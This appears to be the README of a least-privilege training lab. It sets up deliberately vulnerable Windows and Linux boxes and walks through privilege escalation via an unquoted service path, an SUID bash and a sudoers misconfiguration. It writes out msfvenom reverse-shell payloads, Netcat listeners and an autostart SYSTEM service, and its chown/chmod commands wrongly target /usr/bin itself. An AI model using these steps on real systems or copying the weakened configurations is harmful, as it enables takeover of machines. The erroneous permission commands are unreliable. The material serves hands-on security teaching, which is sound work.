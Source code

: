 # Security First Principles: Least Privilege Lab

| Box Name | Type |
| -------- | ------- |
| Linux Exercises | Kali 2023.3 |
| Windows Exercises | Windows 10 Pro build 19044 |
* Windows Defender is disabled via Group Policy on the Windows Exercises box.

## Lab Exercise 1: Widnows Horizontal/Vertical PrivEsc
### Configuration
#### Horizontal PrivEsc via Unquoted Service Path
1. Add two additional users the box, with different passwords. One should be a standard user and the other should be an administrator. Use the administrator-level user for the following steps.
2. Create a "Step 4" folder on the desktop of the selected user.
3. Create a path in Program Files three folders deep with a dummy service executable (`C:\Program Files\[Level 1 Name]\[Level 2 Name]\[Dummy Service Executable]`).
     * Ensure the `Level 2 Name` contains a space (ex. `Service Run`)
     * This dummy executable won't be used, so pretty much any executable that isn't a shell works. I used `iexplore.exe`.
5. Edit the `Level 1 Name` folder properties to grant all users write permission (Properties > Security > Users > Edit > Write).
6. Create a new registry key in `HKLM\SYSTEM\CurrentControlSet\Services`. This key will be the service name.
7. Add the following values to the key:

    | Name | Type | Data |
    | -------- | ------- | ------- |
    | (Default) | REG_SZ | (value not set) |
    | DisplayName | REG_SZ | [Service Name] |
    | ErrorControl | REG_DWORD | 0x00000001 (1) |
    | ImagePath | REG_EXPAND_SZ | [Path to Dummy Service Executable **without quotes**] |
    | ObjectName | REG_SZ | .\\[User Name] |
    | Start | REG_DWORD | 0x00000002 (2) |
    | Type | REG_DWORD | 0x00000010 (16) |

8. Restart the box.
9. Open the Services MMC snap-in. The `[Service Name]` should appear in the list. Ensure the startup type is set to Automatic so it executes when the box starts.

#### Vertical PrivEsc
1. Temporarily elevate the service created in Horizontal PrivEsc to system (Properties > Log on > Log on as: > Local System account).
2. Get a SYSTEM shell by following the steps in [Horizontal PrivEsc Exploitation](#Horizontal-PrivEsc-via-Unquoted-Service-Path).
3. Create the "Step 6" folder in C:\Windows\System32.
4. Restore the service created in Horizontal PrivEsc to running as the selected user (Properties > Log on > Log on as: > This account: > [select account via Browse and provide password]).

### Exploitation
#### Horizontal PrivEsc via Unquoted Service Path
1. Log on to the second user created in Configuration step 1.
2. Create a simple TCP reverse shell with `msfvenom` on the Linux Exercises box:
      * In the example above, this would be `Service.exe`.
      * There is a preconfigured binary with the IP address of the Linux Exercises box and name `Service.exe` in the Windows PrivEsc folder in the repo. It connects to port 1337.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP address of Linux Exercises box> LPORT=1337 -f exe -o [First word of Level 2 Name].exe
```

2. SCP the generated file from the Linux Exercises box to `C:\Program Files\[Level 1 Name]` on the Windows Exercises box.
3. Start a Netcat listener on the Linux Exercises box with `nc -nvlp 1337`.
4. Restart the Windows Exercises box. A Windows shell should spawn in the Netcat session with the permissions of the first user. Use `whoami` to verify this.

#### Vertical PrivEsc
1. Get an administrator shell by following the steps in [Horizontal PrivEsc Exploitation](#Horizontal-PrivEsc-via-Unquoted-Service-Path).
2. Create another simple TCP reverse shell with `msfvenom` on the Linux Exercises box, but it listens on a different port and can use any file name:
      * There is a preconfigured binary with the IP address of the Linux Exercises box and name `Service2.exe` in the Windows PrivEsc folder in the repo. It connects to port 1338.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP address of Linux Exercises box> LPORT=1338 -f exe -o [Filename].exe
```

3. SCP the generated file from the Linux Exercises box to the Windows Exercises box. The location is insiginficant.
4. On the administrator shell, create a SYSTEM-level service that runs the file automatically on startup:

```
sc create [ServiceName] binPath= "[C:\Path\To\New\Shell.exe]" start= auto
```

5. Start a Netcat listener on the Linux Exercises box with `nc -nvlp 1338`.
6. Restart the Windows Exercises box. A Windows shell should spawn in the Netcat session with the permissions of SYSTEM. Use `whoami` to verify this.

## Lab Exercise 2: Linux Horziontal PrivEsc via SUID
### Configuration
1. Add two additional users the box, with different passwords. Only one of these users should be allowed to use `sudo`. Use the sudo-enabled user for the following steps.
2. Create a "Step 4" folder on the desktop of the first user.
3. Build the modified Bash shell in the Linux PrivEsc/Lab 2 folder in the repo with `./configure` and `make`. Name it `shell`.
      * This modification always runs the Bash shell in privileged mode (so that the SUID bit won't be [ignored by default](https://www.gnu.org/software/bash/manual/bash.html)).
      * A pre-built `shell` for the Linux Exercises box is also in the folder.
4. Place the `shell` in the `/usr/bin` folder.
5. Set the owner and group (if applicable) and the SUID bit on the file:
      * If set correctly, permissions should be `-rwSrwxrwx` and the user and group will be the first user.

```
chown [first user] /usr/bin
chgrp [first user] /usr/bin
chmod 4777 /usr/bin
chmod u-x /usr/bin
```

### Exploitation
1. Log on to the second user created in Configuration step 1.
2. Execute the `/usr/bin/shell` file. A Bash shell should spawn with the permissions of the first user. Use `whoami` to verify this.

## Lab Exercise 3: Linux Vertical PrivEsc via visudo
### Configuration
1. Using `sudo` as the first user, create a "Step 5" folder in the home directory of the root user.
2. Use `visudo` to edit the `/etc/sudoers` file. Add a line for your second user to allow them to run `visudo` beneath the root user:
      * A preconfigured `/etc/sudoers` file is `sudoers.old` in the Linux PrivEsc/Lab 3 folder in the repo as well.

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
[second user name]	ALL=/usr/sbin/visudo
```

3. Save the file

### Exploitation
1. Run `visudo` as the second user.
2. Append `,/usr/bin/su` to the privilege specifcation for the second user:
      * A preconfigured `/etc/sudoers` file is `sudoers` in the Linux PrivEsc/Lab 3 folder in the repo as well.

```
# User privilege specification
root	ALL=(ALL:ALL) ALL
[second user name]	ALL=/usr/sbin/visudo,/usr/bin/su
```

3. Save the file
4. Run `sudo su` as the second user. A root shell will spawn.

## Puzzler: Correcting PrivEsc Vulnerabilities
No setup is required.